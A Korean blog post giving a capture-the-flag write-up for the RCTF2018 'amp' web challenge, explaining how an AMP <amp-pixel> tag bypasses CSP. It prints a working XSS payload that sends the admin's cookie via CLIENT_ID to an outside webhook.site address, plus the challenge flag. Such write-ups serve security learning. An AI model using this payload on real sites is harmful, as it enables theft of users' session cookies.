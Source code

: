```yaml
---
layout: post
title: RCTF2018 - amp Write up
excerpt_separator: <!--more-->
tags:
  - Write-up
  - CTF
  - RCTF2018
---
```


2018년 5월 19일부터 5월 21일까지 RCTF가 있었다.  

비록 대회 도중에는 문제를 못풀었지만, 대회 종료 후 amp 문제를 풀게되어 Write-up을 작성하게 되었다.  

<!--more-->

문제 링크에 접속하면 아래와 같은 페이지를 확인할 수 있다.  

![]({{ site.baseurl }}/images/CTF/RCTF2018/amp/amp_01.PNG)  

쿠키를 확인 해 보니, `FLAG` 라는 이름으로 `flag_is_in_admin_cookie` 값이 있었다.  

![]({{ site.baseurl }}/images/CTF/RCTF2018/amp/amp_02.PNG)  

입력 값을 줄 수 있는 곳이 없어 헤메던 중, 메인 페이지에 `HEY INPUT YOUR NAME AFTER QUERYSTRING`이 적혀있는 것을 발견했다.  

`QUERYSTRING`은 `GET` 방식으로 인자를 넘길 때 `index.php?id=aaa`와 같은 형태를 의미한다.  

`NAME`을 입력하라고 했으므로, 문제의 url 뒤에 `name=ccoma`를 입력 해 보았다.  

![]({{ site.baseurl }}/images/CTF/RCTF2018/amp/amp_03.PNG)  

그랬더니 그림과 같이, name 값이 그대로 출력되는 것을 확인할 수 있었다.  

`내가 입력한 값이 그대로 출력` 된다는 점에서 `XSS` 공격을 생각했지만, 분명히 script는 들어가는데 동작하지는 않았다.  

![]({{ site.baseurl }}/images/CTF/RCTF2018/amp/amp_04.PNG)  

`curl -v` 명령어를 통해 확인 해 보니, `CSP(Content Security Policy)`가 걸려 있었다.  

![]({{ site.baseurl }}/images/CTF/RCTF2018/amp/amp_05.PNG)  

실제 CTF 대회 기간에는 이정도밖에 알아내지 못해서 문제를 풀지 못했었다.(흑 ㅠㅠ)  

그래서 대회 종료 후, Write-up이 올라오기만을 기다리다가 ctftime.org에 풀이가 올라온 후 문제를 다시 풀어보았다.  

내가 간과한 점은, 바로 주석이었다.  

페이지 소스를 보면 HTML 주석으로 다음과 같은 글이 있다.  

```
<!-- OK, I don't care AMP Standard -->
<!-- It just wastes my time. -->
```

대회 기간에는 주의깊게 살펴보지 않아 무슨 내용인지 몰랐지만, Write-up을 보고 다시 살펴보니 `AMP 표준에 대해서는 신경쓰지 않는다`는 내용이었다.  

`AMP 표준`은 아래 링크에서 확인할 수 있다.  

[AMP 표준 확인](https://www.ampproject.org/docs/reference/components)

`AMP(Accelerated Mobile Pages)`란, Google에서 시작한 프로젝트로 모바일 전용 빠른 웹 페이지를 의미한다.  

모바일 시장에서 페이지 로딩 속도는 이탈률을 막는 매우 중요한 요소라고 한다.  

그런데 우리가 일반적으로 사용하는 웹 페이지는 모바일에서 성능 저하가 나타나기 때문에 Google에서는 AMP를 만들어 이를 보완하고자 했다.  

하지만 Google은 모바일에서 웹 페이지의 성능을 보장하기 위해 몇 가지 제약 사항을 주었다.  

* CSS는 모두 inline으로 해야하며 50KB를 넘을 수 없다.
* script는 `<script async src="https://cdn.ampproject.org/v0.js"></script>` 처럼 AMP에서 제공하는 것 말고 외부 스크립트는 허용하지 않는다.
* `<amp-img>`, `<amp-video>` 처럼 AMP 전용 태그를 사용해야 한다.

이 외에도 다양한 제약사항이 있지만, 이번에 출제 된 문제를 풀기 위해서는 이정도만 알고 있어도 충분할 것 같다.  

`AMP` 라는 힌트를 얻었으므로, AMP 표준을 둘러보았다.  

내가 문제를 풀기 위해 필요한 것은 `admin의 flag` 이기 때문에, 무언가 쿠키 값을 가져올 수 있는 태그가 필요했다.  

태그를 찾던 중, `<amp-pixel>` 태그를 보게 되었다.  

`<amp-pixel>` 태그는 페이지 뷰를 카운트 할 때 유용한 태그라고 한다.  

`<amp-pixel>` 태그에는 기본적으로 url을 속성으로 주어야 하는데, 만약 해당 코드가 있는 페이지를 누군가 접근한다면, 태그 안에 적혀있는 url로 `GET request`를 전송 해 준다.  

그런데 이 태그의 속성으로 `CLIENT_ID`라는 것을 사용할 수 있다.  

![]({{ site.baseurl }}/images/CTF/RCTF2018/amp/amp_06.PNG)  

`CLIENT_ID`는 사용자를 식별하기 위한 속성으로, `AMP 문서가 Google AMP 캐시를 통해 제공되지 않을 경우에는 쿠키로 대체`된다.  

즉, 쿠키 값에 접근할 수 있다.  

따라서 문제를 풀기 위해 `<amp-pixel>` 태그를 사용하고, url에는 내가 `GET request`를 받아서 확인할 수 있는 주소로 주고, `CLIENT_ID`를 사용 해 쿠키 값을 함께 전송하도록 하면 된다.  

그런데 내가 필요한 것은 나의 쿠키가 아니라 `admin의 쿠키값`이다.  

이를 위해 있는 기능이 `name`을 전송한 뒤에 볼 수 있는 `STOP TRACKING ME` 버튼이다.  

이 버튼을 누를 경우, `We logged your request and contacted admin`이라고 출력된다.  

즉, `admin`이 내가 `name`의 인자로 준 `XSS` 코드를 실행시킬 수 있다.  

이제 필요한 것은, 내가 `GET request`를 확인할 수 있는 링크이다.  

`<amp-pixel>`은 `https`만을 지원하는데, 내 서버에는 `https` 서버가 구축되어 있지 않다.  

python으로 https 서버를 구축 해 봤지만, 제대로된 인증서를 사용하지 않아서인지 응답을 정확히 받아오지 못했다.  

그래서 [https://webhook.site](https://webhook.site/#/) 를 사용했다.  

해당 사이트에서 URL을 받은 후, 문제에서 `name` 옆에 아래와 같이 입력 해 주었다.  

```
<amp-pixel src="https://webhook.site/ee162cc6-d050-482e-89b5-9efd05074455?url=CLIENT_ID(FLAG)"></amp-pixel>
```

![]({{ site.baseurl }}/images/CTF/RCTF2018/amp/amp_07.PNG)  

그 결과 위와 같이 코드가 삽입된 것을 확인할 수 있었다.  

`https://webhook.site`로 돌아가 확인 해 보니 아래와 같이 내가 보낸 요청이 온 것을 확인할 수 있었다.  

![]({{ site.baseurl }}/images/CTF/RCTF2018/amp/amp_08.PNG)  

이에, `STOP TRACKING ME` 버튼을 누른 후, 요청을 다시 확인 해 보았다.  

![]({{ site.baseurl }}/images/CTF/RCTF2018/amp/amp_09.PNG)  

드디어 플래그를 얻을 수 있었다!  

```
FLAG : RCTF{El_PsY_CONGRO0_sg0}
```

Plaid CTF, DEFCON에 이어 RCTF까지 문제 내에 힌트가 있음에도 이를 주의깊게 확인하지 않았던 문제들이 많아 너무 아쉬웠다.  

이번 대회에서는 대회 기간동안에 문제를 풀지 못했지만, 다음 대회에서는 좀 더 주의깊게 확인 해 꼭 대회 기간 내에 문제를 풀어보고 싶다.  
